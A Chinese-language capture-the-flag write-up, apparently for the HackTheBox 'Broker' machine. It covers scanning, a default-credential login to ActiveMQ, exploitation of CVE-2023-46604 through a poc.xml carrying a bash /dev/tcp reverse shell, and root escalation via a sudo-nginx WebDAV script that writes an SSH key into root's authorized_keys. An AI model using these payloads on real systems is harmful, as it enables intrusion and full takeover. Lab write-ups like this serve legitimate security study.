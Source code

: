 nmap 結果
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

點進去原本是 http auth 的登入畫面 jetty 做的 但試了 admin/admin 就成功登入

登入是 ActiveMQ 發現版本號有個漏洞 [CVE-2023-46604](https://github.com/evkl1d/CVE-2023-46604)
![image](https://hackmd.io/_uploads/S1wNJK6zye.png)

原本照他的跑都不行 後面才想到要去看他的 `poc.xml` 修改成自己的 IP 跟 port
```
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.10.10/9001 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

成功 reverse shell
![image](https://hackmd.io/_uploads/BJmibi6Myl.png)

sudo -l 的結果
```
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

查詢後找到這個[腳本](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406)
```
echo "[+] Creating configuration..."
cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	        listen 1339;
	        root /;
	        autoindex on;
	        dav_methods PUT;
	}
}
EOF
echo "[+] Loading configuration..."
sudo nginx -c /tmp/nginx_pwn.conf
echo "[+] Generating SSH Key..."
ssh-keygen
echo "[+] Display SSH Private Key for copy..."
cat .ssh/id_rsa
echo "[+] Add key to root user..."
curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat .ssh/id_rsa.pub)"
echo "[+] Use the SSH key to get access"
```

透過他建立 root 的 ssh key 後在目標上連線 `ssh -i id_rsa root@10.10.11.243` 成功提權
![image](https://hackmd.io/_uploads/BkZERi6MJx.png)

也有很多其他的方法 例如建立自己的 nginx.conf 去取得資料等等 可以參考這篇 [writeup](https://blog.csdn.net/qq_43007452/article/details/143097142)